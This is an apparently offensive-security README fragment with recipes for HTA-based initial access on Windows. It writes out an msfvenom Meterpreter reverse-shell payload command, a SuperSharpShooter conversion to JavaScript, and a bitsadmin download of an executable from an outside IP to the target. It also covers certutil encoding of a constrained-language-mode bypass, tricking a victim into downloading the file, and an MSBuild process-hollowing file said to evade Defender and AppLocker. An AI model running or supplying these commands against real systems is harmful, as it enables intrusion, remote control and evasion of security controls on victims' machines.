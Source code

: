 ### <ins>XSL Transform (xsl.hta)</ins>

- Create shellcode using msfvenom: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f raw -o output/shell.txt` 
- Convert to JS using SuperSharpShooter: `python3 SuperSharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile shell.txt --output test` 
- Embed the JS content inside the `template.xsl` template file. 

### <ins>InstallUtil (installutil-template.hta)</ins>
*Note: if curl is not available on the target machine, we can use bitsadmin instead: `bitsadmin /transfer myJob http://192.168.45.199/scanVenger.exe C:\Windows\Tasks\scanvenger.exe`*
- Compile C# executable that uses Custom Powershell Runspace.
- Convert the outputted EXE to txt using certutil: `certutil -encode clm-bypass.exe file.txt`
- Use the InstallUtil template to trick the victim to download the file.txt file and let the magic happen.

### <ins>MSBuild (msbuild.hta)</ins>
- Use the file [Hollow.xml](https://github.com/Extravenger/OSEP-Combat/blob/main/CLM-Bypass/MSBuild/Hollow.xml). (Bypass defender and Applocker defautlt rules)
